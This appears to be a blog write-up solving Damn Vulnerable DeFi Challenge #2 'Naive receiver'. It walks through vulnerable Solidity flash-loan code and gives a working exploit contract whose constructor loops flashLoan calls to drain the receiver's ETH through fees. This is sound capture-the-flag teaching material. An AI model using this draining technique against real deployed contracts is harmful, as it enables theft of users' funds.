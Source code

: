 ```yaml
---
isDraft: false
title: 'Damn Vulnerable DeFi Challenge #2 Solution'
description: 'Explanation of solution to Damn Vulnerable DeFi Challenge #2: Naive receiver'
tags: ['defi', 'solidity']
publishDate: 'Feb 15, 2023'
---
```



# {frontmatter.title}

<Quote />

*Published {frontmatter.publishDate}*

> ## Challenge #2 - Naive receiver
>
> There’s a pool with 1000 ETH in balance, offering flash loans. It has a fixed fee of 1 ETH.
>
> A user has deployed a contract with 10 ETH in balance. It’s capable of interacting with the pool and receiving flash loans of ETH.
>
> Take all ETH out of the user’s contract. If possible, in a single transaction.

The first thing that stands out in these contracts is that neither the pool nor the receiver implement any sort of access control. The pool's `flashLoan` function calls the `onFlashLoan` function on any contract that is set as the `receiver`.

```solidity
// contracts/naive-receiver/NaiveReceiverLenderPool.sol

function flashLoan(
    IERC3156FlashBorrower receiver,
    address token,
    uint256 amount,
    bytes calldata data
) external returns (bool) {
    if (token != ETH) revert UnsupportedCurrency();

    uint256 balanceBefore = address(this).balance;

    // Transfer ETH and handle control to receiver
    SafeTransferLib.safeTransferETH(address(receiver), amount);
    if (
        receiver.onFlashLoan(
            msg.sender,
            ETH,
            amount,
            FIXED_FEE,
            data
        ) != CALLBACK_SUCCESS
    ) {
        revert CallbackFailed();
    }

    if (address(this).balance < balanceBefore + FIXED_FEE)
        revert RepayFailed();

    return true;
}
```

We can call the receiver's `onFlashLoan` function, and it will transfer back `amount` and `fee`. `amount` is set in the pool's `flashLoan` function's `amount` parameter. `fee` is set by the pool's `FIXED_FEE` constant (`1 ether`).

```solidity
// contracts/naive-receiver/FlashLoanReceiver.sol

function onFlashLoan(
    address,
    address token,
    uint256 amount,
    uint256 fee,
    bytes calldata
) external returns (bytes32) {
    assembly {
        // gas savings
        if iszero(eq(sload(pool.slot), caller())) {
            mstore(0x00, 0x48f5c3ed)
            revert(0x1c, 0x04)
        }
    }

    if (token != ETH) revert UnsupportedCurrency();

    uint256 amountToBeRepaid;
    unchecked {
        amountToBeRepaid = amount + fee;
    }

    _executeActionDuringFlashLoan();

    // Return funds to pool
    SafeTransferLib.safeTransferETH(pool, amountToBeRepaid);

    return keccak256("ERC3156FlashBorrower.onFlashLoan");
}
```

We can call `onFlashLoan` on the receiver through the pool's `flashLoan` function. The receiver will transfer the fee to the pool, so all we have to do is repeatedly call `onFlashLoan` until the receiver is drained. The challenge asks us to do it in one transaction, though.

To do so, we can create a loop in a contract's `constructor`, and it will run right when it is deployed. The contract's deployment will be our only transaction.

Let's create a contract that transfers everything to the pool from within its `constructor`.

```solidity
// contracts/naive-receiver/Hose.sol

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/interfaces/IERC3156FlashBorrower.sol";
import "./NaiveReceiverLenderPool.sol";

contract Hose {
    constructor(
        IERC3156FlashBorrower receiver,
        NaiveReceiverLenderPool pool
    ) {
        while (address(receiver).balance >= 1 ether)
            pool.flashLoan(receiver, pool.ETH(), 0, "");
    }
}
```

We call `flashLoan` on the pool until the receiver can no longer pay the fee. We set `flashLoan`'s `receiver` parameter as the receiver we want to call `onFlashLoan` on. The `token` parameter must be `0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE` or the function will revert. We can conveniently pass in the pool's `ETH` constant since it is `public`. The `amount` parameter doesn't matter in this case since the receiver does not do anything with the actual loan. It could really be anything between 0 and 1000 ETH (the pool's balance). The `data` parameter is also impactless, since the receiver just throws this argument out.

A `for` loop might be better here, so we can set the amount of times we loop, and control how much gas we spend. But since the `player` account is balling out with 10,000 ETH, it doesn't matter much in this case.

All that is left to do is compile and deploy our new contract.

```js
// test/naive-receiver/naive-receiver.challenge.js

it('Execution', async function () {
  await (
    await ethers.getContractFactory('Hose', player)
  ).deploy(receiver.address, pool.address)
})
```
